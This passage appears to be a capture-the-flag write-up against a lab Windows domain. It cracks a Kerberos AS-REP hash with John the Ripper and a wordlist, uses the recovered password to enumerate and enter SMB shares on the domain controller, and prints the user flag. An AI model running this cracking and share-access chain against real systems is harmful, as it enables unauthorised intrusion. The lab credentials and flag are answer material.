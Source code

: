 # HASH CRACKING

We save the hash into a file named `hash.txt` and proceed to crack it. 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```

Info:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
internet         ($krb5asrep$23$zximena448@SOUPEDECODE.LOCAL)     
1g 0:00:00:00 DONE (2025-09-07 19:18) 100.0g/s 51200p/s 51200c/s 51200C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The recovered password for `zximena448` is `internet`.

# SMB with user zximena448

```bash
netexec smb SOUPEDECODE.LOCAL -u 'zximena448' -p 'internet' --shares
```

Info:
```
SMB         10.0.4.18       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.0.4.18       445    DC01             [+] SOUPEDECODE.LOCAL\zximena448:internet 
SMB         10.0.4.18       445    DC01             [*] Enumerated shares
SMB         10.0.4.18       445    DC01             Share           Permissions     Remark
SMB         10.0.4.18       445    DC01             -----           -----------     ------
SMB         10.0.4.18       445    DC01             ADMIN$          READ            Remote Admin
SMB         10.0.4.18       445    DC01             C$              READ,WRITE      Default share
SMB         10.0.4.18       445    DC01             IPC$            READ            Remote IPC
SMB         10.0.4.18       445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.4.18       445    DC01             SYSVOL          READ            Logon server share
```

```bash
smbclient //SOUPEDECODE.LOCAL/C$ -U zximena448
```

Using these credentials, we connect to the `C$` share with the `zximena448` account and retrieve the `user flag`.

```
2fe79eb0e02ecd4dd2833cfcbbdb504c
```
